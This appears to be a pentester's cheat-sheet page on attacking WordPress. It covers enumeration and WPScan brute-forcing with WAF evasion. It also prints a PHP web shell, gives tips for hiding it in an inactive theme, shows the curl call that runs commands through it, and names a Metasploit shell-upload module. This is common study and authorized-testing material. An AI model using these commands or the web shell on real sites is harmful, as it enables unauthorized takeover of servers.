 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# WordPress

## General Information

### Directories

* `/wp-admin` -> `/wp-login.php`
* `/wp-content/plugins/`
* `/wp-content/themes/`

### Roles & Permissions

<table><thead><tr><th width="192">Role</th><th>Permissions</th></tr></thead><tbody><tr><td>Administrator</td><td>King!</td></tr><tr><td>Editor</td><td>Post management + publish (for all users)</td></tr><tr><td>Author</td><td>Post management + publish (owned posts)</td></tr><tr><td>Contributor</td><td>Post management (owned posts)</td></tr><tr><td>Subscriber</td><td>Browse posts, manage its own profile</td></tr></tbody></table>

### Wordlists

<table><thead><tr><th width="174">Component</th><th>Wordlist</th></tr></thead><tbody><tr><td>Directories</td><td><a href="https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wordpress.fuzz.txt">wordpress.fuzz.txt</a></td></tr><tr><td>Plugins</td><td><a href="https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt">wp-plugins.fuzz.txt</a></td></tr><tr><td>Themes</td><td><a href="https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wp-themes.fuzz.txt">wp-themes.fuzz.txt</a></td></tr></tbody></table>

## WPScan

> For vulnerability scanning get a token from [WPScan](https://wpscan.com/).

{% tabs %}
{% tab title="Update DB" %}
```bash
wpscan --update
```
{% endtab %}

{% tab title="Vulnerable Components" %}
```bash
sudo wpscan --url example.com --enumerate --api-token <TOKEN>
```
{% endtab %}

{% tab title="Brute-force" %}
<pre class="language-bash"><code class="lang-bash"><strong>sudo wpscan --url example.com -e u --passwords password.lst
</strong></code></pre>
{% endtab %}

{% tab title="WAF Evasion" %}
<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>sudo wpscan --url example.com --enumerate --api-token &#x3C;TOKEN> --random-user-agent
</strong></code></pre>
{% endtab %}
{% endtabs %}

WPScan uses 2 kinds of BFA:

1. [xmlrpc](https://kinsta.com/blog/xmlrpc-php/) -> uses WP's API to BF (`xmlrpc.php`) (this is faster)
2. wp-login -> attempts to BF `wp-login.php`

{% embed url="https://github.com/wpscanteam/wpscan" %}
WPScan's GitHub repository.
{% endembed %}

{% embed url="https://github.com/wpscanteam/wpscan/wiki/WPScan-User-Documentation" %}
Wiki page for WPScan.
{% endembed %}

## Manual

{% tabs %}
{% tab title="Version" %}
```bash
curl -s example.com | grep '<meta name="generator"'
```
{% endtab %}

{% tab title="Themes" %}
```bash
curl -s example.com | grep themes
```
{% endtab %}

{% tab title="Plugins" %}
```bash
curl -s example.com | grep plugins
```
{% endtab %}

{% tab title="Plugin Version*" %}
{% code overflow="wrap" %}
```bash
curl -s example.com/wp-content/plugins/mail-masta/readme.txt | grep "Stable tag:"
```
{% endcode %}
{% endtab %}
{% endtabs %}

{% hint style="info" %}
\*Plugin version requires Directory listing to be enabled.
{% endhint %}

## RCE

A simple PHP web shell (obfuscate the file name).&#x20;

```php
<?php system($_GET['c']); ?>
```

Modify a less-used file of an inactive theme for avoiding breaking the site.

<figure><img src="../../../.gitbook/assets/http_80_ir_webshell_process.png" alt=""><figcaption><p>Step for RCE after gaining admin access.</p></figcaption></figure>

Interact with the shell via CLI.

```bash
curl http://example.com/wp-content/themes/twentytwenty/404.php?c=id
```

## Metasploit

```bash
msfconsole -q
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
```

{% tabs %}
{% tab title="Launch Metasploit" %}
```bash
msfconsole -q
```
{% endtab %}

{% tab title="Use MSF's module*" %}
```bash
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
```
{% endtab %}
{% endtabs %}

{% hint style="warning" %}
\*Make sure to `set VHOST`!
{% endhint %}
